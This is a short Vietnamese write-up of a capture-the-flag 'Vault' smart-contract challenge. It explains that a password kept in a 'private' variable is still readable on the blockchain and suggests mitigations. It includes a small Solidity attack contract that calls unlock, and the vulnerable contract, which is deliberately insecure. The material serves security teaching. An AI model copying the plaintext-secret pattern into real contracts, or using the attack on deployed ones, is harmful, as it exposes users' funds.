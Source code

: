 ### Kết luận
- Lỗ hổng: Lưu password dưới dạng dữ liệu công khai trong blockchain, dễ dàng bị đọc và khai thác.
- Cách phòng: Cần thêm một số `modifiers`, `require` chặt hơn, ẩn hoặc mã hóa các dữ liệu quan trọng (`password`) bằng  cách sử dụng `keccak256(abi.encodePacked(_password)`, hoặc có thể giới hạn số lần thử `attempt <= 3` hoặc
kiểm tra logging.
### Contract tấn công
```solidity
// SPDX-License-Identifier: MIT
import './vault.sol';
pragma solidity ^0.8.0;
interface IVault{
    function unlock(bytes32 _password) external;
}
contract VaultAttack{
    IVault public challenge;
    constructor (address _victim){
        challenge = IVault(_victim);
    }
    function attack(bytes32 _password) external {
        challenge.unlock(_password);
    }
}
```
### Contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```
